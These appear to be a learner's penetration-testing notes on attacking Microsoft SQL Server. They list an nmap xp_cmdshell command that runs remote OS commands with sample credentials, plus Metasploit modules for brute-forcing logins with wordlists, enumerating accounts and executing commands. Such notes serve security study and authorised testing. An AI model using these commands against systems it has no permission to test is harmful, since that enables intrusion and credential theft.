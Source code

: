 <o>--script ms-sql-xp-cmdshell</o>
+ Will be able to run a shell remotely 
+ Example: `nmap IP -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig"`
  + the above will run a ipconfig
  + note on windows, rather then `cat` will use `type`

### MSSQL (Microsoft) Metasploit ###

<r>msfconcole</r>
+ <g>mssql_login</g>
  + will brute force
  + `use auxiliary/scanner/mssql/mssql_login`
    + `set rhosts IP`
    + `set pass_file /usr/share/metasploit-framwork/data/wordlists/unix_passwords.txt`
    + `set verbose false`
    + `set user_file /root/Desktop/wordlist/common_users.txt`
+ <g>mssql_enum</g>
  + lots of database information
  + `use auxiliary/admin/mssql/mssql_enum`
    + `set rhosts IP`
+ <g>mssql_enum_sql_logins</g>
  + can see logins and the user type
  + `use auxiliary/admin/mssql/mssql_enum_sql_logins`
    + `set rhosts IP`
+ <g>mssql_exec</g>
  + can see if can run commands
  + `use auxiliary/admin/mssql/mssql_exec`
    + `set rhosts IP`
+ <g>mssql_enum_domain_accounts</g>
  + can see domain accounts
  + `use auxiliary/admin/mssql/mssql_enum_domain_accounts`
    + `set rhosts IP`

<style>
r { color: Red; font-weight: bold}
o { color: Orange; font-weight: bold }
g { color: LightGreen; font-weight: bold }
b { color: darkCyan; font-weight: bold}
pu { color: purple; font-weight: bold}
</style>